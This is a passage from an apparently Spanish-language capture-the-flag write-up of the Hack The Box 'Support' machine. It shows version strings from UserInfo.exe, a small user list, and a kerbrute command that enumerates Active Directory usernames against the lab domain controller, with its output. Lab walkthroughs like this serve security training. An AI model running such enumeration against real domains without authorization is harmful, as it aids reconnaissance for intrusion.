 ```
VS_VERSION_INFO
VarFileInfo
Translation
StringFileInfo
000004b0
Comments
CompanyName
FileDescription
UserInfo
FileVersion
1.0.0.0
InternalName
UserInfo.exe
LegalCopyright
Copyright 
  2022
LegalTrademarks
OriginalFilename
UserInfo.exe
ProductName
UserInfo
ProductVersion
1.0.0.0
Assembly Version
1.0.0.0
```

`Creamos` un `fichero` users con los `usuarios` encontrados

```
armando
ldap
```

### Kerberos Enumeration

`Enumeramos usuarios` mediante `kerberos`

```
# kerbrute userenum --dc 10.129.178.149 -d support.htb /usr/share/seclists/Usernames/xato-net-10-million-usernames.txt -t 50             

    __             __               __     
   / /_____  _____/ /_  _______  __/ /____ 
  / //_/ _ \/ ___/ __ \/ ___/ / / / __/ _ \
 / ,< /  __/ /  / /_/ / /  / /_/ / /_/  __/
/_/|_|\___/_/  /_.___/_/   \__,_/\__/\___/                                        

Version: v1.0.3 (9dad6e1) - 08/17/24 - Ronnie Flathers @ropnop

2024/08/17 15:41:57 >  Using KDC(s):
2024/08/17 15:41:57 >  	10.129.178.149:88

2024/08/17 15:41:58 >  [+] VALID USERNAME:	support@support.htb
2024/08/17 15:41:58 >  [+] VALID USERNAME:	guest@support.htb
2024/08/17 15:42:01 >  [+] VALID USERNAME:	administrator@support.htb
```
